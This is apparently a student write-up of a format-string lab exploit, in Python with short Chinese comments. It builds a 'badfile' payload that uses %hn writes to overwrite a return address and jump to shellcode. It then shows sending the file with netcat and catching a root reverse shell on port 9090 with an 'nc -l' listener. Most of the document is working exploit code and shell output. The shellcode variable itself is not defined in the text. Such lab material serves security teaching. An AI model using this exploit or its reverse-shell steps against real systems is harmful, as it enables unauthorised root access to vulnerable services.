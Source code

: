 ```python 
rbp=0x00007fffffffe480
ret_myprint=rbp+0x8
print('%#x'%ret_myprint)
# Put the shellcode somewhere in the payload 0x 7fff ffff e488
start = 1500-len(shellcode)            
content[start:start + len(shellcode)] = shellcode

shellcode_addr=start+buf
# print('%#x'%shellcode_addr) 0x 0000 7fff ffff ea77
s_0_16=0xea77
s_16_32=0xffff
s_32_48=0x7fff

# order : s_32_48  s_0_16  s_16_32

fmt ='%.' + str(s_32_48)+'x%40$hn'
fmt+='%.' + str(s_0_16-s_32_48) + 'x%41$hn'
fmt+='%.' + str(s_16_32-s_0_16) + 'x%42$hn'

# print(len(fmt)) 41

content[0:len(fmt)]=fmt.encode('latin-1')

ret1=0x7fffffffe488
ret2=0x7fffffffe48a
ret3=0x7fffffffe48c

# from 6th 
content[48:56] = (ret3).to_bytes(8, byteorder='little')
content[56:64] = (ret1).to_bytes(8, byteorder='little')
content[64:72] = (ret2).to_bytes(8, byteorder='little')

with open('badfile', 'wb') as f:
    f.write(content)

```

开一个shell监听

 ```
$ nc -nv -l 9090 
Listening on 0.0.0.0 9090
Connection received on 10.9.0.6 53258
root@7ebdb2357116:/fmt# 
 ```

另一个shell执行：`cat badfile | nc 10.9.0.6 9090`

获得反向shell

```
$ nc -nv -l 9090 
Listening on 0.0.0.0 9090
Connection received on 10.9.0.6 53258
root@7ebdb2357116:/fmt# 
```
